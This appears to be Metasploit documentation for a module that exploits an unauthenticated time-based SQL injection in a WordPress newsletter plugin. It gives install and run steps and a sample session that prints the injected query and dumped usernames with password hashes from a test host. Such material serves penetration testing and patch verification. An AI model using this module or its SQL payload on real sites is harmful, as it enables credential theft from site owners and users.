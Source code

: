 ## Vulnerable Application

Email Subscribers & Newsletters plugin contains an unauthenticated timebased SQL injection in
versions before 4.2.3.  The vulnerable parameter is in the `hash` parameter.

All versions can be downloaded from [wordress.org](https://wordpress.org/plugins/email-subscribers/advanced/)
or [4.2.2](https://downloads.wordpress.org/plugin/email-subscribers.4.2.2.zip)

After install, simply activate the plug-in.  You may get a "80% done!" page, simply ignore it.

## Verification Steps

1. Install the plugin on wordpress.
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_email_sub_news_sqli`
1. Do: `set rhosts [ip]`
1. Do: `set action [action]`
1. Do: `run`

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### COUNT

If Action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

## Scenarios

### Wordpress 5.4.2 with Email Subscribers & Newsletters 4.2.2 on Ubuntu 20.04 using MariaDB 10.3.22

#### List Users

```
msf6 > use auxiliary/scanner/http/wp_email_sub_news_sqli 
msf6 auxiliary(scanner/http/wp_email_sub_news_sqli) > set rhosts 2.2.2.2
rhosts => 2.2.2.2
msf6 auxiliary(scanner/http/wp_email_sub_news_sqli) > set count 3
count => 3
msf6 auxiliary(scanner/http/wp_email_sub_news_sqli) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/wp_email_sub_news_sqli) > run

[*] Checking /wp-content/plugins/email-subscribers/readme.txt
[*] Found version 4.2.2 in the plugin
[+] Vulnerable version detected
[*] {SQLi} Executing (select group_concat(yKaoA) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) yKaoA from wp_users limit 3) adO)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
